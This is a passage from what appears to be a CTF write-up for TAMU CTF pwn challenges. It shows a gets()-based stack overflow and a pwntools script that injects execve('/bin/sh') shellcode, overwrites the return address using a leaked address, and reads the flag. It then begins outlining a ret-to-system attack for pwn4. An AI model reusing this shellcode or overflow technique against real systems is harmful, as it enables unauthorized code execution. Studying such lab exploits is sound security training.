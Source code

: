 ```python
0x080484fe <+51>:	lea    eax,[ebp-0xee]
0x08048504 <+57>:	push   eax
0x08048505 <+58>:	call   0x8048380 <gets@plt>
```
### EXPLOIT
As we can see that NX is disabled, the stack is a executable section of memory. We can write opcodes on the stack and then overwrite the return address with the address given to us by the program. So the shellcode is executed and shell is pwned. I used pwntools to receive the leak and add it into my exploit.
```python
from pwn import *
 
shellcode="\x31\xdb\x6a\x17\x58\xcd\x80\xf7\xe3\xb0\x0b\x31\xc9\x51\x68\x2f\x2f\x 73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
junk="a"*(242-len(shellcode))
 
s=process('./pwn3')
\#s=remote('pwn.ctf.tamu.edu',4323)
s.recvuntil('0x')
b=s.recvuntil('!')
  
b=b.translate(None,'!')
 
print b
b = "0x"+ b
print b
t=p32(int(b,16))
 
s.sendline(shellcode + junk + t)
s.send("ls" + "\n")
s.recv(20)
s.send("cat flag.txt" + "\n")
s.recv(100)
 
s.interactive()
```

<hr>
## pwn4

`32-bit executable, dynamically linked, not stripped`

Here we have a menu driven program that has bigger code but the vulnerability is again a gets() function that reads our the choice. 

debugging in GDB... 
```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
We can control the flow of the program by overwriting the return address. We can see PLT addresses of system() as it is used in the code. To pwn the shell we need to call system with a pointer to "/bin/sh" as the argument.
